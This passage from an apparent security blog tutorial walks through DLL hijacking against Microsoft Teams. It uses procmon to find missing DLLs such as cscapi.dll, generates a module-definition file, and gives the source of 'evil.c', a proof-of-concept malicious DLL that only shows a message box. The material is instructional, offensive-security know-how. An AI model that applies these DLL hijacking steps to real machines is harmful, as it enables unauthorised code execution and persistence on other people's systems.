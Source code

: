 ![MS teams](/assets/images/13/2021-10-12_14-10.png){:class="img-responsive"}    

As in my previous post, let's go to run [procmon](https://docs.microsoft.com/en-us/sysinternals/downloads/procmon) from sysinternals, and setting the following filters:

![MS teams procmon](/assets/images/13/2021-10-12_14-16.png){:class="img-responsive"}    

As you can see, the process `Teams.exe` is missing several DLLs which possibly can be used for DLL hijacking. For example `cscapi.dll`:

![MS teams procmon](/assets/images/13/2021-10-12_14-17.png){:class="img-responsive"}    

Then, let's go to move `C:\` and search legit DLL:
```cmd
cd C:\
dir /b /s cscapi.dll
```

![search cscapi.dll](/assets/images/13/2021-10-12_14-44.png){:class="img-responsive"}    

We now know exactly where the legit DLL is located.     

Copy legit `cscapi.dll` to attacker's machine. Then run my `dll-def.py` script:
```bash
python3 dll-def.py cscapi.dll
cat cscapi.dll
```

![search cscapi.dll](/assets/images/13/2021-10-12_14-52.png){:class="img-responsive"}    

And again, as you can see, Module-Definition file `cscapi.def` has been created.      

Let's take another look at the `evil.c`:
```cpp
/*
evil.c - malicious DLL
DLL hijacking with exported functions example
author: @cocomelonc
*/

#include <windows.h>
#pragma comment (lib, "user32.lib")

BOOL APIENTRY DllMain(HMODULE hModule,  DWORD  ul_reason_for_call, LPVOID lpReserved) {
    switch (ul_reason_for_call)  {
    case DLL_PROCESS_ATTACH:
      MessageBox(
        NULL,
        "Meow-woof!", // I have changed this line for clarity, but not required
        "=^..^=",
        MB_OK
      );
      break;
    case DLL_PROCESS_DETACH:
      break;
    case DLL_THREAD_ATTACH:
      break;
    case DLL_THREAD_DETACH:
      break;
    }
    return TRUE;
}
```

